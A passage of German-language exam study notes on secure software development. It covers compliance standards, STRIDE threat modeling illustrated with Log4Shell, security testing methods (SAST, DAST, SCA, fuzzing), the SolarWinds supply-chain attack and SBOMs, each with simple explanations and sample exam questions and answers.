  - **ISO/IEC 27001**: internationaler Standard für Informationssicherheits-Managementsysteme
  - **NIST Secure Software Development Framework (SSDF)**: konkrete Praktiken für sichere Entwicklung, in den USA zunehmend Pflicht für Software-Lieferanten des Staates

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Unternehmen investieren oft nicht aus purer Nächstenliebe in IT-Sicherheit, sondern weil Gesetze und Industriestandards sie dazu zwingen (**Compliance** = Regeltreue). Wer gegen die DSGVO verstößt, riskiert Strafen von bis zu 20 Millionen Euro oder 4 % des weltweiten Jahresumsatzes. Standards wie **ISO 27001** verlangen ein funktionierendes Sicherheits-Managementsystem (ISMS), und Leitfäden wie das **NIST SSDF** geben konkrete Handlungsschritte für die Entwicklung vor.
*Wichtig:* Nur weil man „compliant“ ist, ist man noch lange nicht sicher! Ein Unternehmen kann alle Häkchen auf einer Checkliste gesetzt haben und trotzdem durch eine neuartige Lücke gehackt werden.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die Kernunterschiede zwischen DSGVO (Datenschutz natürlicher Personen, Art. 25 Privacy by Design), ISO 27001 (Managementsystem) und NIST SSDF (Entwicklungspraktiken) kennen und den Grundsatz „Compliance ≠ 100 % Sicherheit“ begründen können.
- **Typische Klausurfalle:** ISO 27001 für eine Programmierrichtlinie halten. ISO 27001 ist ein **Managementstandard** für Prozesse, Richtlinien und Organisation!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Erklären Sie den Unterschied zwischen 'Compliance' und 'Sicherheit'. Warum garantiert ein ISO-27001-Zertifikat keine absolute Sicherheit vor Cyberangriffen?“
**Antwort:**
- **Compliance:** Erfüllung formaler gesetzlicher oder regulatorischer **Mindestanforderungen** zu einem bestimmten Audit-Zeitpunkt.
- **Sicherheit:** Der tatsächliche, kontinuierliche Schutz der Systeme und Daten vor realen, sich ständig verändernden Bedrohungen.
- **Keine Garantie:** Audits prüfen primär dokumentierte Prozesse; neuartige Angriffsmethoden (Zero-Day-Exploits) oder menschliche Fehlbedienungen im Alltag lassen sich durch Zertifikate nicht ausschließen.

---

# Design

## Security by Design, Threat Modeling, STRIDE

### 💡 Worum geht es in diesem Kapitel?
Im Design wird die Architektur des Systems gebaut. Hier entscheidet sich, ob ein System von Natur aus robust ist oder wie ein Kartenhaus bei der ersten Erschütterung zusammenfällt. Wir betrachten die goldenen Prinzipien von Security by Design, den systematischen Prozess des Threat Modeling und das berühmte STRIDE-Modell zur Bedrohungsanalyse.

### 🎯 Modul-Lernziel
Du lernst, Entwurfsprinzipien (Least Privilege, Fail Secure, Defense in Depth) anzuwenden und Bedrohungen anhand von Datenflüssen mit STRIDE systematisch aufzudecken.

### ❓ Typische Schwerpunkte
Die drei Design-Prinzipien mit Beispielen, die 4 Schritte des Threat Modeling und die 6 Buchstaben von STRIDE samt Schutzzielfamilie.

---

# Security by Design

- **Security by Design**: Sicherheit wird als Grundprinzip der Architektur behandelt, nicht als nachträgliche Ergänzung

- Wichtige Leitprinzipien:
  - **Minimalprinzip (Least Privilege)**: Jede Komponente bekommt nur die Rechte, die sie zwingend braucht
  - **Fail Secure**: Bei einem Fehler soll das System in einen sicheren Zustand fallen (z. B. Zugriff verweigern statt gewähren)
  - **Defense in Depth**: Mehrere Sicherheitsschichten, damit der Ausfall einer Schicht nicht sofort zum Totalschaden führt

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Sicherheit ist kein nachträglicher Anstrich, sondern das Fundament der Architektur. Drei Prinzipien sind elementar:
1. **Least Privilege (Minimalprinzip):** Jeder Benutzer und jeder Dienst bekommt nur die allerwenigsten Rechte, die er zwingend für seine Aufgabe braucht. *Analogie:* Ein Hotelgast bekommt eine Zimmerkarte, keinen Generalschlüssel.
2. **Fail Secure:** Wenn das System abstürzt oder ein Fehler auftritt, verriegelt es sich sicher, statt sperrangelweit offenzustehen. *Analogie:* Eine elektrische Brandschutztür, die bei Stromausfall zufällt statt aufzuspringen.
3. **Defense in Depth (Mehrschichtige Abwehr):** Mehrere Hürden hintereinander. Fällt eine Schicht, hält die nächste Schicht den Angreifer auf. *Analogie:* Eine mittelalterliche Burg mit Burggraben, Zugbrücke, Außenmauer und Burgfried.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die drei Kernprinzipien (*Least Privilege*, *Fail Secure*, *Defense in Depth*) definieren und an praktischen Beispielen (z. B. Datenbankrechte, Fehlerbehandlung beim Login) erläutern können.
- **Typische Klausurfalle:** Verwechslung von „Fail Safe“ (System bleibt betriebsbereit / fällt offen aus) und „Fail Secure“ (System riegelt im Zweifel ab). In der IT-Security wollen wir **Fail Secure**!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Erläutern Sie das Prinzip 'Least Privilege' anhand des Zugriffs einer Webanwendung auf eine SQL-Datenbank.“
**Antwort:**
- **Bedeutung:** Eine Komponente erhält ausschließlich die Berechtigungen, die zur Erfüllung ihrer Funktion unbedingt nötig sind.
- **Beispiel Datenbank:** Die Webanwendung meldet sich nicht mit dem Datenbank-Administrator (`sa` oder `root`) an, sondern mit einem eingeschränkten Dienstkonto, das nur `SELECT`/`INSERT` auf den benötigten Tabellen darf und keine administrativen Rechte (`DROP TABLE`, `GRANT`) besitzt.

---

# Threat Modeling

- **Threat Modeling**: systematische Methode, um mögliche Bedrohungen für ein System **vor** der Implementierung zu identifizieren

- Klassischer Ablauf:
  1. System modellieren (Datenflussdiagramm: wer spricht mit wem?)
  2. Bedrohungen pro Komponente identifizieren
  3. Bedrohungen bewerten (Risiko = Wahrscheinlichkeit × Schaden)
  4. Gegenmaßnahmen definieren

- Wird typischerweise vom Entwicklungsteam gemeinsam mit Security-Experten durchgeführt

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Threat Modeling ist wie das Durchspielen eines Einbruchs mit einem Sicherheitsberater, noch bevor das Haus gebaut wird. Man nimmt die Blaupause des Systems (Datenflussdiagramm: Wer schickt welche Daten wohin?), setzt die Angreifer-Brille auf und fragt: An welchen Stellen überqueren Daten eine Grenze zwischen sicher und unsicher (**Vertrauensgrenze**)? Wo könnte manipuliert, abgehört oder sabotiert werden? Anschließend priorisiert man die Risiken und baut gezielt Gegenmaßnahmen ein.
*Alltagsanalogie:* Ein Flughafen-Bauplan. Wo kommen Passagiere von der Straße rein? Wo ist die Sicherheitskontrolle (Vertrauensgrenze)? Wie verhindern wir, dass jemand Gepäck am Scanner vorbeischleust?

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die 4 Phasen des Threat Modeling in richtiger Reihenfolge nennen können: (1) Modellieren ➔ (2) Bedrohungen identifizieren ➔ (3) Bewerten (Risiko = Wahrscheinlichkeit × Schadenshöhe) ➔ (4) Behandeln/Gegenmaßnahmen definieren.
- **Typische Klausurfalle:** Glauben, Threat Modeling sei ein automatisiertes Software-Tool. Es ist ein **systematischer menschlicher Analyseprozess** im Team!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Nennen Sie die vier Kernschritte des systematischen Threat Modelings und erklären Sie die Bedeutung von 'Vertrauensgrenzen' (Trust Boundaries).“
**Antwort:**
- **Vier Schritte:**
  1. System modellieren (z. B. Datenflussdiagramm / DFD).
  2. Bedrohungen identifizieren (z. B. mit STRIDE).
  3. Risiken bewerten (Wahrscheinlichkeit × Schadensausmaß).
  4. Gegenmaßnahmen festlegen (Mitigieren, Akzeptieren, Übertragen, Vermeiden).
  - **Vertrauensgrenzen:** Übergänge, an denen Daten von einer weniger vertrauenswürdigen Zone (z. B. öffentliches Internet) in eine vertrauenswürdige Zone (z. B. interne Datenbank) fließen; hier sind strenge Prüfungen und Authentifizierung zwingend erforderlich.

---

# STRIDE – Eine Bedrohungs-Taxonomie

| Buchstabe | Bedrohung | Verletztes Schutzziel |
|---|---|---|
| **S**poofing | Vortäuschen einer falschen Identität | Authentizität |
| **T**ampering | Unbefugte Veränderung von Daten | Integrität |
| **R**epudiation | Abstreiten einer durchgeführten Aktion | Nicht-Abstreitbarkeit |
| **I**nformation Disclosure | Ungewollte Preisgabe von Daten | Vertraulichkeit |
| **D**enial of Service | Verfügbarkeit wird beeinträchtigt | Verfügbarkeit |
| **E**levation of Privilege | Unbefugte Rechteausweitung | Autorisierung |

### 💡 Auf den Punkt gebracht (Einfach erklärt)
STRIDE ist ein geniales Akronym von Microsoft, um bei der Bedrohungsanalyse keine Sicherheitslücke zu vergessen. Jeder Buchstabe steht für eine Bedrohungsart und das Schutzziel, das dadurch angegriffen wird:
- **S**poofing: Identitätsdiebstahl (Greift **Authentizität** an – *„Ich tue so, als wäre ich der Chef“*).
- **T**ampering: Manipulation von Daten (Greift **Integrität** an – *„Ich ändere heimlich die IBAN auf der Rechnung“*).
- **R**epudiation: Abstreiten von Aktionen (Greift **Nicht-Abstreitbarkeit** an – *„Ich behaupte einfach, ich habe die Überweisung nie getätigt“*).
- **I**nformation Disclosure: Datendiebstahl / Datenleck (Greift **Vertraulichkeit** an – *„Ich lese heimlich fremde Kundendaten mit“*).
- **D**enial of Service: Lahmlegung des Systems (Greift **Verfügbarkeit** an – *„Ich überlaste den Server, sodass niemand mehr einkaufen kann“*).
- **E**levation of Privilege: Rechteausweitung (Greift **Autorisierung** an – *„Ein normaler Nutzer verschafft sich Admin-Rechte“*).

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Alle 6 Buchstaben von STRIDE auf Deutsch oder Englisch nennen, dem jeweils verletzten Schutzziel zuordnen und ein praxisnahes Beispiel nennen können.
- **Typische Klausurfalle:** Verwechslung von Spoofing (falsche Identität vorgeben) und Elevation of Privilege (mit der eigenen Identität unberechtigt höhere Rechte erlangen).

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Wofür steht das Akronym STRIDE? Nennen Sie zu den Buchstaben 'T' und 'R' jeweils die Bedrohung, das verletzte Schutzziel und eine passende Gegenmaßnahme.“
**Antwort:**
- **Bedeutung:** Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege.
- **T (Tampering):** Manipulation von Daten. Verletztes Schutzziel: **Integrität**. Gegenmaßnahme: **Kryptographische Prüfsummen / Digitale Signaturen / TLS**.
- **R (Repudiation):** Abstreiten von Aktionen. Verletztes Schutzziel: **Nicht-Abstreitbarkeit (Verbindlichkeit)**. Gegenmaßnahme: **Revisionssichere Audit-Logs mit Zeitstempeln und Signaturen**.

---

# STRIDE am Beispiel: Log4Shell

- **Information Disclosure**: Angreifer konnte interne Umgebungsvariablen und Secrets auslesen

- **Elevation of Privilege**: Durch Remote Code Execution erlangte der Angreifer volle Kontrolle über den Server-Prozess

- Ein systematisches Threat Modeling mit STRIDE hätte die Frage aufgeworfen: „Was passiert, wenn eine Log-Nachricht selbst ausführbaren Code enthält?"

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Wie hätte STRIDE die Log4Shell-Katastrophe verhindern können? Wenn die Entwickler beim Design der Logging-Funktion die STRIDE-Brille aufgesetzt hätten, wären sie auf zwei gigantische Risiken gestoßen:
1. **Information Disclosure:** Warum sollte ein Logger interne Umgebungsvariablen wie API-Keys oder Passwörter auslesen und nach außen schicken dürfen?
2. **Elevation of Privilege:** Warum sollte ein übergebener Textstring dazu führen, dass Code mit den vollen Rechten des Webservers ausgeführt wird?
Mit STRIDE hätte man sofort erkannt: Der Logger überquert eine riskante Vertrauensgrenze und muss gegen die Ausführung von Code rigoros abgeriegelt werden!

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Einen realen Sicherheitsvorfall anhand der STRIDE-Kategorien analysieren und begründen können, welche Bedrohungsarten vorlagen.
- **Typische Klausurfalle:** In der Klausur nur einen Buchstaben nennen. Komplexe Angriffe kombinieren fast immer mehrere Kategorien (erst Information Disclosure zum Ausspähen, dann Elevation of Privilege für den Durchbruch)!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Ordnen Sie die Auswirkungen von Log4Shell zwei passenden Kategorien des STRIDE-Modells zu und begründen Sie Ihre Zuordnung.“
**Antwort:**
- **Information Disclosure:** Angreifer konnten sensible Daten (z. B. AWS-Keys oder Zugangsdaten) aus Umgebungsvariablen auslesen und exfiltrieren (**Verletzung der Vertraulichkeit**).
- **Elevation of Privilege:** Durch das Nachladen und Ausführen von beliebigem Schadcode (Remote Code Execution) erlangte der externe Angreifer die vollen Ausführungsrechte des Serverprozesses (**Rechteausweitung / Autorisierungsbruch**).

---

# Testing

## SAST, DAST, SCA, Code Review, Fuzzing

### 💡 Worum geht es in diesem Kapitel?
Im Testing prüfen wir die Software auf Herz und Nieren. Es gibt nicht „das eine“ Testwerkzeug, sondern spezialisierte Methoden für unterschiedliche Blickwinkel: SAST analysiert den Text des Quellcodes, DAST greift die fertige Anwendung von außen an, SCA durchleuchtet externe Bibliotheken, Fuzzing bombardiert das Programm mit Müll-Eingaben und Code Reviews nutzen menschlichen Verstand für Logikfehler.

### 🎯 Modul-Lernziel
Du lernst die fünf wichtigsten Testmethoden im SSDLC kennen und kannst für jedes Szenario entscheiden, welches Werkzeug am besten geeignet ist.

### ❓ Typische Schwerpunkte
Der direkte Vergleich von SAST vs. DAST, der Einsatzzweck von SCA sowie die Einordnung von Code Review und Fuzzing in einer Vergleichsmatrix.

---

# SAST vs. DAST

### Static Application Security Testing (SAST)
- Analysiert den **Quellcode**, ohne ihn auszuführen
- Findet z. B. Injection-Muster, unsichere Funktionen
- Früh im Prozess einsetzbar (schon beim Commit)
- Nachteil: viele **False Positives**

### Dynamic Application Security Testing (DAST)
- Testet die **laufende Anwendung** von außen
- Findet z. B. echte XSS-Lücken im Browser-Kontext
- Braucht eine lauffähige Umgebung
- Nachteil: findet Fehler erst spät (nach dem Build)

### 💡 Auf den Punkt gebracht (Einfach erklärt)
- **SAST (Static Application Security Testing):** White-Box-Test. Das Tool liest den Quellcode wie ein Buch – ohne dass das Programm überhaupt laufen muss. *Vorteil:* Kann extrem früh (schon beim Schreiben des Codes) gestartet werden und zeigt auf die genaue Zeilennummer. *Nachteil:* Kennt den Laufzeitkontext nicht und meldet daher viele Fehlalarme (**False Positives**).
- **DAST (Dynamic Application Security Testing):** Black-Box-Test. Das Tool greift die laufende Webanwendung von außen an wie ein echter Hacker über das Netzwerk. *Vorteil:* Testet das echte System unter realen Bedingungen (keine Theorie) und findet Laufzeit-/Konfigurationsfehler. *Nachteil:* Kann erst spät eingesetzt werden (braucht lauffähigen Server) und zeigt nicht, in welcher Codezeile der Fehler liegt.
*Alltagsanalogie:* SAST prüft den Bauplan eines Autos auf Konstruktionsfehler am Schreibtisch. DAST setzt das fertige Auto auf die Teststrecke und fährt mit Vollgas gegen die Wand, um zu sehen, ob die Airbags wirklich auslösen.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** SAST und DAST in mindestens vier Dimensionen (Prüfgegenstand, Testart/Box, Einsatzzeitpunkt, Vor-/Nachteile) gegenüberstellen können.
- **Typische Klausurfalle:** Zu glauben, ein Verfahren mache das andere überflüssig. Moderne Entwicklung braucht **beides**, weil sie völlig unterschiedliche Fehlerklassen finden!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Vergleichen Sie SAST und DAST tabellarisch anhand von: Prüfgegenstand, Testmethode (White-Box vs. Black-Box), Einsatzzeitpunkt und je einem typischen Nachteil.“
**Antwort:**
- **SAST:** Prüft **Quellcode**; **White-Box**; sehr früh im Prozess (**Entwicklung / Commit**); Nachteil: hohe Rate an Fehlalarmen (**False Positives**).
- **DAST:** Prüft **laufende Anwendung**; **Black-Box**; spät im Prozess (**Staging / Testumgebung**); Nachteil: findet Fehler erst spät und lokalisiert nicht die exakte Codezeile.

---

# Software Composition Analysis (SCA)

- **Software Composition Analysis (SCA)**: automatisierte Prüfung aller verwendeten Open-Source-Abhängigkeiten auf bekannte Schwachstellen

- Gleicht eingesetzte Bibliotheken (inkl. transitiver Abhängigkeiten) mit Schwachstellen-Datenbanken ab (z. B. **CVE**-Einträge)

- **Log4Shell-Bezug**: Ein SCA-Tool hätte sofort gemeldet: „Log4j Version X ist verwundbar – Update auf Version Y nötig"

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Moderne Software besteht zu 80–90 % aus fertigen Open-Source-Bausteinen und Bibliotheken. Nur ein kleiner Teil ist eigener Code. Wenn dein eigener Code bombensicher ist, aber eine eingebundene Bibliothek eine bekannte Lücke hat, ist dein ganzes System offen. **SCA** scannt deine Paketlisten (z. B. `pom.xml`, `package.json`), identifiziert alle Abhängigkeiten (auch tief verschachtelte) und gleicht sie mit weltweiten Schwachstellen-Datenbanken (CVE-Listen) ab.
*Alltagsanalogie:* Ein Sternekoch, der ein perfektes Menü kocht, aber eine fertige Mayonnaise kauft, die mit Salmonellen verseucht ist. Ein SCA-Tool ist die Lebensmittelkontrolle, die vor dem Servieren die Chargennummer der Mayonnaise auf Rückrufe prüft.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die Aufgabe von SCA definieren und messerscharf von SAST abgrenzen: **SAST prüft eigenen Quellcode, SCA prüft fremde Abhängigkeiten und Bibliotheken!**
- **Typische Klausurfalle:** Annehmen, SCA würde unbekannte neue Schwachstellen (Zero-Days) finden. SCA erkennt **nur bereits bekannte Schwachstellen (CVEs)** in bekannten Versionen!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Grenzen Sie Software Composition Analysis (SCA) von Static Application Security Testing (SAST) ab. Warum hätte SCA bei Log4Shell geholfen?“
**Antwort:**
- **Abgrenzung:** SAST analysiert den **selbst geschriebenen Quellcode** auf Programmierfehler. SCA analysiert die **eingebundenen Drittanbieter-Bibliotheken (Dependencies)** auf bekannte Schwachstellen.
- **Bezug Log4Shell:** Nach Veröffentlichung der Schwachstelle hätte ein SCA-Tool sofort Alarm geschlagen, dass die installierte Log4j-Version verwundbar ist und ein Update erfordert.

---

# Code Review & Fuzzing

- **Code Review**: manuelle (oder teilautomatisierte) Durchsicht von Code-Änderungen durch andere Entwickler vor der Übernahme
  - Findet auch subtile Logikfehler, die Tools übersehen
  - Fördert Wissenstransfer im Team

- **Fuzzing**: automatisiertes Testen mit massenhaft zufälligen oder mutierten Eingaben, um Abstürze und unerwartetes Verhalten zu provozieren
  - Besonders wirksam bei Parsern, Datei-Formaten, Netzwerkprotokollen

### 💡 Auf den Punkt gebracht (Einfach erklärt)
- **Code Review (4-Augen-Prinzip):** Menschliche Entwickler prüfen den Code anderer Entwickler vor dem Mergen. Warum unverzichtbar? Tools finden Syntaxfehler, aber keine geschäftlichen Logikfehler (z. B. „Ein Rabattcode darf 10-mal eingelöst werden“ – für ein Tool völlig valide, wirtschaftlich ein Desaster!).
- **Fuzzing:** Ein automatisierter Stresstest, der ein Programm mit riesigen Mengen zufälliger, kaputter oder unerwarteter Eingaben bombardiert. Ziel ist es, Pufferüberläufe, Endlosschleifen oder Speicherabstürze zu provozieren.
*Alltagsanalogie:* Code Review ist das Korrekturlesen eines Vertrags durch einen zweiten Anwalt. Fuzzing ist ein Kleinkind, das wild und mit voller Wucht auf alle Knöpfe einer Fernbedienung gleichzeitig drückt, um zu sehen, ob sie abstürzt.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Den Nutzen von manuellem Code Review für komplexe Business-Logik erklären und den Einsatzzweck von Fuzzing (Robustheitstests für Parser, Protokolle, Dateiformate) beschreiben können.
- **Typische Klausurfalle:** Fuzzing für einen Funktionstest halten. Fuzzing testet nicht, ob die Funktion richtig rechnet, sondern ob das System bei fehlerhaftem Input **stabil bleibt und sicher abbricht**!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Warum kann ein automatisiertes SAST-Tool ein manuelles Sicherheits-Code-Review nicht vollständig ersetzen? Nennen Sie ein konkretes Beispiel.“
**Antwort:**
- **Fehlendes Kontextverständnis:** Automatisierte Tools verstehen keine **fachliche Geschäftslogik** oder Rechtekonzepte im Anwendungskontext.
- **Beispiel:** Ein Tool erkennt nicht, ob in einer Funktion `getUserData(userId)` geprüft wird, ob der angemeldete Nutzer tatsächlich berechtigt ist, die Daten dieser fremden `userId` abzurufen (**Broken Object Level Authorization / BOLA**).

---

# Testing-Werkzeuge im Überblick

| Methode | Prüft | Zeitpunkt | Beispielfund |
|---|---|---|---|
| SAST | Quellcode | Sehr früh | Fest codiertes Passwort |
| DAST | Laufende App | Spät | XSS im Login-Formular |
| SCA | Abhängigkeiten | Früh/laufend | Verwundbare Log4j-Version |
| Code Review | Logik & Kontext | Vor Merge | Fehlende Rechteprüfung |
| Fuzzing | Robustheit | Vor Release | Absturz bei Datei-Upload |

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Diese Matrix ist dein Schweizer Taschenmesser für die Klausur. Jedes Werkzeug hat seine Spezialdisziplin: SAST für den eigenen Quellcode (sehr früh), DAST für die laufende App (spät), SCA für Drittanbieter-Bibliotheken (dauerhaft), Code Review für Denk- und Logikfehler (vor dem Merge) und Fuzzing für Robustheit bei Parsern (vor dem Release). Kein Werkzeug kann die anderen ersetzen – echte Sicherheit entsteht nur durch die Kombination!

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die 5 Methoden anhand der Dimensionen *Prüfgegenstand*, *Zeitpunkt* und *typischer Fund* sicher zuordnen können.
- **Typische Klausurfalle:** Einem Werkzeug den falschen Fund zuschreiben (z. B. SCA findet keine hardgecodeten Passwörter im eigenen Code – das macht SAST oder Secret Scanning!).

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Ein Entwicklerteam möchte folgende drei Probleme automatisiert in der Pipeline finden: (1) Ein fest hinterlegtes Passwort im Java-Code, (2) Eine veraltete Open-Source-Bibliothek mit bekannter Sicherheitslücke, (3) Eine XSS-Lücke im Web-Frontend. Welches Tool ist jeweils zuständig?“
**Antwort:**
- (1) Fest hinterlegtes Passwort: **SAST** (oder Secret Scanner).
- (2) Veraltete Bibliothek mit Lücke: **SCA** (Software Composition Analysis).
- (3) XSS-Lücke im Frontend: **DAST** (oder SAST).

---

# Supply Chain

## Angriffsflächen & Software Bill of Materials (SBOM)

### 💡 Worum geht es in diesem Kapitel?
Wir verlassen den reinen Code und schauen auf die gesamte Lieferkette (Software Supply Chain). Was nützt der sicherste Code, wenn die Build-Pipeline manipuliert wird oder die Zulieferer kompromittiert sind? Wir analysieren den spektakulären SolarWinds-Hack und lernen die Software Bill of Materials (SBOM) als unverzichtbares Inventar kennen.

### 🎯 Modul-Lernziel
Du verstehst, warum moderne Cyberangriffe vermehrt auf die Lieferkette zielen, und kannst Maßnahmen zur Absicherung von Drittkomponenten und Build-Prozessen erklären.

### ❓ Typische Schwerpunkte
Angriffsvektoren in der Software-Lieferkette, der Fall SolarWinds (signierter Schadcode) und das Konzept/die Formate einer SBOM (SPDX, CycloneDX).

---

# Die Software-Lieferkette als Angriffsfläche

- **Software Supply Chain**: alle Komponenten, Werkzeuge und Prozesse, die zur Entstehung einer Software beitragen – nicht nur der eigene Code

- Typische Glieder: Open-Source-Bibliotheken, Build-Tools, CI/CD-Infrastruktur, Container-Images, Entwickler-Rechner

- Angreifer zielen zunehmend nicht auf das Endprodukt, sondern auf **ein Glied der Kette**, um viele Opfer gleichzeitig zu treffen

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Eine Software entsteht heute wie ein Auto in einer Fabrik: Tausende Zulieferteile (Open-Source-Pakete), Roboterarme (Build-Tools & Compiler) und Transportbänder (CI/CD-Pipelines) fügen das Produkt zusammen. Für Hacker ist es viel lukrativer, das Werkzeug des Zulieferers zu vergiften als ein einzelnes Ziel anzugreifen. Schaffen sie es, Schadcode in ein weit verbreitetes Werkzeug einzuschleusen, infizieren sie mit einem Schlag tausende Unternehmen gleichzeitig (**Hebelwirkung / Multiplikator**).
*Alltagsanalogie:* Ein Brunnenvergifter. Statt in jedes Haus einzeln einzubrechen und das Wasserglas zu vergiften, schüttet der Täter das Gift direkt in das städtische Wasserwerk.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die Bestandteile einer Software-Lieferkette aufzählen können (Bibliotheken, Build-Tools, CI/CD, Container-Images) und den Hebeleffekt für Angreifer erklären.
- **Typische Klausurfalle:** Zu denken, Supply-Chain-Angriffe beträfen nur Open Source. Auch kommerzielle Softwareanbieter und Entwicklungswerkzeuge sind gefährdet!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Warum stellen Angriffe auf die Software Supply Chain für Cyberkriminelle ein besonders attraktives Angriffsziel dar?“
**Antwort:**
- **Multiplikatoreffekt:** Durch die Kompromittierung einer einzigen weit verbreiteten Komponente oder Build-Pipeline können automatisch **tausende nachgelagerte Kunden gleichzeitig** infiziert werden.
- **Umgehung von Abwehrmaßnahmen:** Die ausgelieferte Schadsoftware stammt aus einer scheinbar legitimen, vertrauenswürdigen Quelle und wird von Firewalls und Virenscannern oft nicht blockiert.

---

# Fallstudie: SolarWinds (2020)

- **Was geschah?**
  - Angreifer kompromittierten die Build-Infrastruktur des Netzwerk-Management-Tools „Orion"
  - Schadcode wurde in ein offizielles, digital signiertes Update eingeschleust
  - ~18.000 Kunden installierten das manipulierte Update

- **Warum Supply-Chain-Versagen?**
  - Vertrauen in den Update-Mechanismus wurde ausgenutzt – niemand prüfte das signierte Update inhaltlich

- **Konsequenzen:** Monatelange, teils bis heute andauernde Aufarbeitung; einer der folgenreichsten Cyberangriffe überhaupt

### 💡 Was zeigt uns dieser Fall?
SolarWinds stellte eine Netzwerkmanagement-Software namens „Orion“ her, die von US-Behörden, dem Militär und Großkonzernen genutzt wurde. Angreifer hackten nicht die Kunden und nicht den Quellcode im Repository, sondern drangen unbemerkt in das **Build-System** von SolarWinds ein. Dort pflanzten sie während des Kompiliervorgangs eine Backdoor ein. Die Software wurde anschließend von SolarWinds offiziell **digital signiert** und als reguläres Update an 18.000 Kunden verteilt.
*Kernaussage:* Eine digitale Signatur beweist nur, von wem die Datei stammt und dass sie nach dem Signieren nicht verändert wurde. Sie beweist **nicht**, dass der Inhalt harmlos ist!

### 🎯 Klausurrelevanz (Transferaufgabe!)
- **Was du können musst:** Den SolarWinds-Vorfall von Log4Shell sauber abgrenzen können: Bei Log4Shell war es eine **bekannte Schwachstelle in einer Open-Source-Bibliothek**; bei SolarWinds war es eine **gezielte Infiltration des Build-Prozesses zur Einschleusung von Schadcode in ein signiertes Update**.
- **Typische Klausurfalle:** Glauben, eine digitale Signatur schütze vor Schadcode. Signiert wird alles, was aus dem Build-Server herauskommt – auch Schadcode!

### ❓ Typische Fallfrage & Lösung
**Frage:** „Grenzen Sie die Sicherheitsvorfälle Log4Shell und SolarWinds hinsichtlich der Ursache in der Software-Lieferkette voneinander ab.“
**Antwort:**
- **Log4Shell:** Ausnutzung einer **Sicherheitslücke/Designfehlers** in einer weit verbreiteten Open-Source-Bibliothek durch externe Befehle.
- **SolarWinds:** Gezielte Kompromittierung der **Build-Infrastruktur**, wodurch bösartiger Schadcode direkt in ein offiziell signiertes Hersteller-Update eingeschleust wurde.

---

# Software Bill of Materials (SBOM)

- **Software Bill of Materials (SBOM)**: maschinenlesbares Verzeichnis aller Komponenten, Bibliotheken und deren Versionen, die in einer Software stecken

- Vergleichbar mit der Zutatenliste auf einer Lebensmittelverpackung

- Nutzen:
  - Bei neuer Schwachstelle (wie Log4Shell) sofort prüfbar: „Sind wir betroffen?"
  - Voraussetzung für viele Compliance-Vorgaben (z. B. US-Behörden verlangen SBOMs von Zulieferern)

- Verbreitete Formate: **SPDX**, **CycloneDX**

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Eine SBOM ist der digitale Beipackzettel oder die **Zutatenliste** einer Software. Sie listet maschinenlesbar auf: Welche Komponenten, Bibliotheken und Module stecken in welcher Version in dieser Software, und von wem stammen sie? Wenn morgen eine neue Schwachstelle gemeldet wird, muss niemand mehr tagelang den Code durchsuchen: Man jagt einfach die SBOM durch einen Scanner und weiß in Sekundenschnelle, ob man betroffen ist.
*Gängige Formate:* **SPDX** (von der Linux Foundation) und **CycloneDX** (vom OWASP-Projekt).

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Den Begriff SBOM definieren, die Analogie zur Zutatenliste erklären, zwei Standardformate (**SPDX, CycloneDX**) nennen und den Nutzen bei Zero-Day-Vorfällen begründen.
- **Typische Klausurfalle:** SBOM und SCA verwechseln. **SBOM ist die Inventarliste (die Daten)**; **SCA ist das Analysewerkzeug**, das diese Liste ausliest und bewertet!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Was versteht man unter einer Software Bill of Materials (SBOM) und warum ist sie für das Schwachstellenmanagement von essenzieller Bedeutung?“
**Antwort:**
- **Definition:** Ein maschinenlesbares Verzeichnis aller in einer Software enthaltenen Komponenten, Bibliotheken, Versionen und Abhängigkeiten (z. B. im Format SPDX oder CycloneDX).
- **Bedeutung:** Ermöglicht bei Bekanntwerden neuer Schwachstellen (wie Log4Shell) eine **sofortige automatisierte Betroffenheitsanalyse** („Wo setzen wir diese Komponente ein?“), ohne zeitaufwändige manuelle Quellcode- oder Dateisuchen.

---

# DevSecOps

## CI/CD-Integration & Security Gates

### 💡 Worum geht es in diesem Kapitel?
Im letzten Kapitel bringen wir alles zusammen: Wie lässt sich Sicherheit im schnellen, modernen Entwicklungsalltag automatisieren? DevSecOps verbindet Entwicklung (Dev), Sicherheit (Sec) und Betrieb (Ops) zu einer gemeinsamen Kultur. Wir schauen uns an, wie automatisierte Sicherheitsprüfungen in CI/CD-Pipelines integriert werden und wie „Security Gates“ verhindern, dass unsicherer Code live geht.

### 🎯 Modul-Lernziel
Du verstehst den Übergang von DevOps zu DevSecOps, kannst Sicherheitsprüfungen in eine CI/CD-Pipeline einordnen und weißt, wie Security Gates sinnvoll konfiguriert werden.

### ❓ Typische Schwerpunkte
